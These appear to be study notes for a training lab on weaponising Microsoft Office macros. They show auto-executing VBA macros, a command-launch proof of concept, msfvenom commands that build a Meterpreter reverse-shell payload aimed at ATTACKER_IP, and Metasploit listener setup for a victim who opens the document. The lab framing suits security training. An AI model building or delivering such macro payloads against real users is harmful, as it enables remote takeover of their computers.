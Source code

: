 A programming language ***implemented for Microsoft applications such as Word, Excel, PowerPoint***, etc. It ***allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications***.

`Macros` are Microsoft Office applications that contain ***embedded code written in a programming language knows as VBA***. It is used to ***create custom functions to speed up manual tasks*** by ***creating automated processes***. VBA can ***access the Windows API and other low-level functions***, making it powerful for customization and automation.

#### Create a Macro
1. `Create a new blank Microsoft Document.`
2. `View -> macros`
3. `Choose the macro name and select from the Macros in list Document1. Finally select create.`
4. `To execute the VBA code automatically (AutoOpen and Document_Open) once the document gets opened. Run or F5 to run the macro.`
	```
		Sub Document_Open()
		  THM
		End Sub

		Sub AutoOpen()
		  THM
		End Sub
		
		Sub THM()
		   MsgBox ("Welcome to Weaponization Room!")
		End Sub
	```
**Note: Save it in Macro-Enabled format such as `.doc` and `.docm`. Save the file as `Word 97-2003 Template`.**

5. To execute a `calc.exe`:
	```
	Sub PoC()
		Dim payload As String
		payload = "calc.exe"
		CreateObject("Wscript.Shell").Run payload,0
	End Sub
	```

#### Reverse Shell
Create an in-memory meterpreter payload using Metasploit framework to receive a reverse shell.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f vba
```
**Important to Note: The output will be working on an MS excel sheet. Therefore, change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents. **

```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost IP
set lport 443
run
```

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

#### Important Note
If you don't have access to the machine, use the bottom method to generate a payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f vba
```
- `-f vba:` generates VBA payloads, which are meant for macros in Office documents, not standalone VBS scripts.

**Generate a proper VBS Payload**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f vbs -o payload.vbs
```
- `-f vbs:` ensures the payload is formatted for VBScript execution instead of an Office macro.